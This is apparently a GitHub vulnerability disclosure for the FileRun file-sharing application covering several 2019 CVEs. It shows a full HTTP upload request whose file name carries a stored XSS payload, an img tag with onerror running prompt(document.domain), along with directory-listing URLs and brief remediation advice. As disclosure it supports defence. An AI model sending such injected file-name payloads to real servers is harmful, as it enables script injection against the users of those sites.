 # FileRun Vulnerabilities and Exploits
[FileRun](https://filerun.com) application has many vulnerabilities.

## CVE-2019-12457 - CVE-2019-12458 - CVE-2019-12459 - CVE-2019-XXXXX

https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-XXXXX

https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-12457

https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-12458

https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-12459

### PoC - XSS
To exploit vulnerability, someone could upload an allowed file named ```“><img src=x onerror=prompt(document.domain)>``` to impact users who open the page.

```
POST /filerun/?module=fileman&section=do&page=up HTTP/1.1
Host: 172.16.191.129
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:67.0) Gecko/20100101 Firefox/67.0
Accept: */*
Accept-Language: tr-TR,tr;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://172.16.191.129/filerun/
Content-Type: multipart/form-data; boundary=---------------------------142096305821079611661465592403
Content-Length: 6034
DNT: 1
Connection: close
Cookie: FileRunSID=aqlneuv86ccj3pi4h476faopi5

-----------------------------142096305821079611661465592403
Content-Disposition: form-data; name="flowTotalSize"

5100
-----------------------------142096305821079611661465592403
Content-Disposition: form-data; name="flowIsFirstChunk"

1
-----------------------------142096305821079611661465592403
Content-Disposition: form-data; name="flowIsLastChunk"

1
-----------------------------142096305821079611661465592403
Content-Disposition: form-data; name="flowFilename"

â><img src=x onerror=prompt(document.domain)>.jpg
-----------------------------142096305821079611661465592403
Content-Disposition: form-data; name="path"

/ROOT/HOME
-----------------------------142096305821079611661465592403
Content-Disposition: form-data; name="file"; filename="â><img src=x onerror=prompt(document.domain)>.jpg"
Content-Type: image/jpg

<%@ I said you should learn! %>


-----------------------------142096305821079611661465592403--
```

![alt tag](https://emreovunc.com/blog/en/FileRun-XSS-Exploit-Vulnerability-02.png)

![alt tag](https://emreovunc.com/blog/en/FileRun-XSS-Exploit-Vulnerability-03.png)

### PoC - Directory Listing
```
http://[server]/filerun/images/extjs/
http://[server]/filerun/css/ext-ux/
http://[server]/filerun/customizables/plugins/audio_player/
```
![alt tag](https://emreovunc.com/blog/en/FileRun-DirectoryListing-1.png)

![alt tag](https://emreovunc.com/blog/en/FileRun-DirectoryListing-2.png)

![alt tag](https://emreovunc.com/blog/en/FileRun-DirectoryListing-3.png)

## Remediation
You should make sure the directory does not contain sensitive information or you may want to restrict directory listings from the web server configuration.
